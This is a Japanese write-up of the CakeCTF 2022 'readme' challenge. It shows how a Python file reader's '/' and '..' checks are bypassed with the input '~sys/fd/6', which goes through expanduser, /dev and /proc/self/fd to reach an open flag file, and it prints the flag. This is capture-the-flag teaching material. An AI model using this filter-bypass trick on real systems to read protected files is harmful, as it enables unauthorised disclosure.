 # readme 2022:misc:135pts
`nc misc.2022.cakectf.com 12022`  

[readme2022_80ade97026adcb7e3e8f6203ad1eab06.tar.gz](readme2022_80ade97026adcb7e3e8f6203ad1eab06.tar.gz)  

# Solution
どこかで見たような問題名だ。  
ひとまずソースを見ると以下のようであった。  
```python
import os

try:
    f = open("/flag.txt", "r")
except:
    print("[-] Flag not found. If this message shows up")
    print("    on the remote server, please report to amdin.")

if __name__ == '__main__':
    filepath = input("filepath: ")
    if filepath.startswith("/"):
        exit("[-] Filepath must not start with '/'")
    elif '..' in filepath:
        exit("[-] Filepath must not contain '..'")

    filepath = os.path.expanduser(filepath)
    try:
        print(open(filepath, "r").read())
    except:
        exit("[-] Could not open file")
```
フラグは同梱されていたDockerfileから`/flag.txt`にあるようだ。  
スクリプトは入力のパスにあるファイルを読み取って表示するだけだが、`..`と`/`での開始が禁止されている。  
明らかに`os.path.expanduser(filepath)`が怪しいので、[ドキュメント](https://docs.python.org/3/library/os.path.html#os.path.expanduser)を見てみる。  
どうやら`~user`がそのユーザのホームディレクトリに置換されるらしい。  
例えば`~ctf`ならば`/home/ctf`となる。  
ここで`/etc/passwd`などを見てやり、`/`に近いホームディレクトリを持つユーザを調査する。  
```bash
ctf@0fb006453c11:/app$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
~~~
```
すると`sys`ユーザのホームが`/dev`であることがわかる。  
`~sys`が`/dev`になるので、この直下をシンボリックリンクなどを期待して漁る。  
```bash
ctf@0fb006453c11:/app$ ls -al /dev
total 4
drwxr-xr-x 5 root root    360 Sep  3 17:27 .
drwxr-xr-x 1 root root   4096 Sep  3 05:27 ..
crw--w---- 1 ctf  tty  136, 0 Sep  3 17:27 console
lrwxrwxrwx 1 root root     11 Sep  3 17:27 core -> /proc/kcore
lrwxrwxrwx 1 root root     13 Sep  3 17:27 fd -> /proc/self/fd
crw-rw-rw- 1 root root   1, 7 Sep  3 17:27 full
drwxrwxrwt 2 root root     40 Sep  3 17:27 mqueue
crw-rw-rw- 1 root root   1, 3 Sep  3 17:27 null
lrwxrwxrwx 1 root root      8 Sep  3 17:27 ptmx -> pts/ptmx
drwxr-xr-x 2 root root      0 Sep  3 17:27 pts
crw-rw-rw- 1 root root   1, 8 Sep  3 17:27 random
drwxrwxrwt 2 root root     40 Sep  3 17:27 shm
lrwxrwxrwx 1 root root     15 Sep  3 17:27 stderr -> /proc/self/fd/2
lrwxrwxrwx 1 root root     15 Sep  3 17:27 stdin -> /proc/self/fd/0
lrwxrwxrwx 1 root root     15 Sep  3 17:27 stdout -> /proc/self/fd/1
crw-rw-rw- 1 root root   5, 0 Sep  3 17:27 tty
crw-rw-rw- 1 root root   1, 9 Sep  3 17:27 urandom
crw-rw-rw- 1 root root   1, 5 Sep  3 17:27 zero
```
`/dev/fd`が`/proc/self/fd`へのシンボリックリンクとなっている。  
問題のスクリプトは最初にopenしているので、何番かのfdが掴んでいるだろうと予測できる。  
あとは3以降を適当に試せばよい。  
```bash
$ nc misc.2022.cakectf.com 12022
filepath: ~sys/fd/3
[-] Could not open file

$ nc misc.2022.cakectf.com 12022
filepath: ~sys/fd/4
[-] Could not open file

$ nc misc.2022.cakectf.com 12022
filepath: ~sys/fd/5

^C
$ nc misc.2022.cakectf.com 12022
filepath: ~sys/fd/6
CakeCTF{~USER_r3f3rs_2_h0m3_d1r3ct0ry_0f_USER}


```
flagが得られた。  

## CakeCTF{~USER_r3f3rs_2_h0m3_d1r3ct0ry_0f_USER}